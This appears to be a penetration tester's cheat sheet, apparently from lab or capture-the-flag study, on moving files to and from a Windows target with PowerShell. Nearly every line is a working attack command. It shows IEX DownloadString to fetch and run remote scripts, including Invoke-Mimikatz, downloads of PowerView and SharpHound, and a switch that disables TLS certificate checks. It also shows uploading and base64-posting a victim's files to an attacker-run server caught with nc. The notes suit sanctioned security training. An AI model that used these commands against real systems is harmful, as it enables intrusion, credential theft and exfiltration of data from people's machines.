 ## Download

```powershell-session
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.26:8000/SharpHound.ps1','C:\Users\svc-alfresco\Documents\SharpHound.ps1')
```

Instead of downloading executables, we can try to run it directly in memory using the `Invoke-Expression cmdlet (IEX)` and `DownloadString`

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

might also be able to use 
```
wget/curl link -OutFile file.name
```


Important Flags 
`-UseBasicParsing` - if powershell has yet to finish basic configurations

Error:
If SSL/TLS secure channel if certificate is not trusted
```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
run the command again


## Upload
Set up a web server that accepts uploads on our attack machine

On attack machine 
```
pip3 install uploadserver
python3 -m uploadserver
```


use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

Can also convert to base64 and then upload too
```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```
powershell-session
 Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

can catch the base64 in nc
```shell-session
nc -lvnp 8000
```

then decode it
```shell-session
echo <base64> | base64 -d -w 0 > outfile
```


